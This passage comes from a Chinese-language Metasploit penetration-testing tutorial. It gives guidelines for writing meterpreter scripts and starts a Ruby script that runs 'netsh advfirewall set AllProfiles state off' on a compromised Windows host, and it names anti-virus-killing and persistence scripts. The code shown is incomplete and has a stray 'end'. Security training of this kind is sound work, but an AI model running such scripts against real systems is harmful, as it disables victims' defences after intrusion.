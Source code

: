 这是使用 Railgun 作为一个强大工具根据我们的需要调用 Windows API 的一个简短演示。你可以在 MSDN 库中寻找各种有用的 Windows API 调用，并将它们添加到 Railgun 中，增强你的框架的功能。它可以用来调用目标机器上的任何 DLL。在下一个示例中，我们将继续开发我们自己的 meterpreter 脚本。

# 构建一个“Windows 防火墙停用器”meterpreter 脚本

到目前为止，我们已经使用了几个 meterpreter 脚本，比如`killav.rb`和`persistence.rb`。让我们开始讨论开发我们自己的 meterpreter 脚本。编写 Metasploit 中的任何模块都需要 Ruby 知识。你应该对 Ruby 有基本的了解。目前没有足够的文档可以直接学习 meterpreter 脚本编写。最简单和最好的做法是学习 Ruby 语言，同时不断查看各种可用模块的代码。你也可以阅读 Metasploit 开发者指南，了解框架提供的不同库，这些库可以在编写自己的模块时使用。文档可以在[`dev.metasploit.com/redmine/projects/framework/wiki/DeveloperGuide`](http://dev.metasploit.com/redmine/projects/framework/wiki/DeveloperGuide)找到。

我们将在这里开发的脚本是一个 Windows Vista/7 防火墙停用器脚本。它将使用 Windows 命令`netsh`，meterpreter 将通过使用名为`cmd_exec()`的 mixin 在目标机器上执行该命令。

## 准备工作

Meterpreter 脚本在受攻击的客户端上运行，因此您只需专注于通过脚本执行的任务。您不必担心连接或任何其他参数。让我们看看在编写 meterpreter 脚本时应该牢记的一些重要准则

+   **避免全局变量：** 这是在任何框架上编码的一般原则。应避免使用全局变量，因为它们可能会干扰框架变量。只使用实例、局部和常量变量。

+   **使用注释：** 在编写代码时，注释是必不可少的。这可以帮助您跟踪哪个部分负责特定的操作。

+   **包括参数：** 您可能已经注意到在几个示例中，我们如何将参数与脚本一起传递。最基本但有用的参数是`-h`或`help`选项。

+   **打印结果：** 打印操作结果可以证明脚本的执行是成功还是失败。应该广泛使用不同的打印调用，如`print_status, print_error`等，以显示相关信息。

+   **平台验证：** 确保您验证要在其上执行操作的平台。

+   **保持文件约定：** 完成脚本编写后，请将其保存在`/pentest/exploits/framework3/scripts/meterpreter`目录下。遵循框架文件约定可以避免任何冲突。

+   **使用 mixin：** Mixin 是 meterpreter 中的一个重要概念。使用 mixin 可以使我们的脚本看起来更简单、更容易。

在编写 meterpreter 脚本时，您应该牢记这些准则。

让我们打开任何文本编辑器开始编写 Ruby 脚本。如果您正在使用 BackTrack，则可以使用 Gedit 文本编辑器。

## 如何做到...

1.  在文本编辑器中输入以下代码行。在转到解释部分之前，仔细查看脚本，并尝试弄清楚每行的含义。脚本很容易理解。

```
# Author: Abhinav Singh
# Windows Firewall De-Activator
#Option/parameter Parsing
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default windows Firelwall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
}
# OS validation and command execution
unsupported if client.platform !~ /win32|win64/i
end
begin
print_status("disabling the default firewall")
cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5) 
```
